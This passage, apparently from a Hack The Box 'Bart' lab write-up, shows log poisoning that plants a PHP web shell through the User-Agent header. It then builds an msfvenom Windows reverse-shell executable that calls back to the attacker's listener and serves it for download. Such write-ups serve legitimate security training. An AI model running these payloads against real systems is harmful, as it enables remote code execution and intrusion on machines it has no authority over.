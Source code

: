![](attachments/bart_15.png)

Then the "phpinfo" page is loaded which means that I can run any php code.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ python                          
Python 3.12.7 (main, Nov  8 2024, 17:55:36) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers={'User-Agent':'rce: <?php system($_REQUEST["cmd"]); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=cmd.php&username=harvey', headers=headers)
>>> r.text
'1'
```

![](attachments/bart_16.png)

It worked! Let's open a reverse shell using this and reverse shell payload.

### Open reverse shell

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f exe -o rshell_9000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell_9000.exe
                                                                                             
┌──(kali㉿kali)-[~/htb/bart]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.81 - - [05/Mar/2025 14:24:09] "GET /rshell_9000.exe HTTP/1.1" 200 -

```
